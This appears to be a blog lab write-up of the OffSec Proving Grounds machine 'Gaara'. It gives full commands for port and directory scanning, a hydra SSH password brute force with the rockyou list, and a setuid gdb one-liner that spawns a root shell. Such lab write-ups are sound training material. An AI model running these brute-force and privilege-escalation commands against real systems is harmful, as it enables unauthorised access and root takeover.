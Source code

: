 ```yaml
---
title: OffSec PG - Gaara
date: 2021-12-19 12:00:00 +0500
categories: [Lab Practice Notes, OffSec Proving Grounds]
tags: [oscp,lab,offsec-proving-grounds]
image:
  path: /assets/img/covers/pg-cover.jpeg
  alt: PG Artwork
---
```


## Enumeration

Machine IP &rarr; `192.168.208.142`

### Network Scan

Nmap scan &rarr; `nmap -sC -sV -Pn -p- -A -o nmap.txt 192.168.208.142`

OS Detection &rarr;  `OS: Linux; CPE: cpe:/o:linux:linux_kernel`

| **Port** | **Service** | **Other details (if any)**                     |
| -------- | ----------- | ---------------------------------------------- |
| 22       | SSH         | OpenSSH 7.9p1 Debian 10+deb10u2 (protocol 2.0) |
| 80       | HTTP        | Apache httpd 2.4.38 ((Debian))                 |

### Web Scan

GoBuster scan &rarr; `gobuster dir -u http://192.168.208.142 -w /usr/share/seclists/Discovery/Web-Content/directory-list-lowercase-2.3-medium.txt -x html,php`

This did not reveal any useful information.

---

## Exploitation

Using the image on the webpage as a reference, the username could be `gaara`. Therefore, used hydra to brute force the ssh server against the rockyou password list.

```other
hydra -l gaara -P /usr/share/wordlists/rockyou.txt ssh://192.168.208.142:22
```

This gives the password as `iloveyou2` and subsequently gets the user flag.

---

## Privilege Escalation

Checking for setuid binaries reveals the presence of `gdb` as a setuid to root executable. The user is not present in the sudoers file. Therefore, it is essential to escalate using the `gdb` binary.

This is done as follows &rarr; `gdb -nx -ex 'python import os; os.execl("/bin/sh", "sh", "-p")' -ex quit`.

This grants the root shell and subsequently the root flag.

---
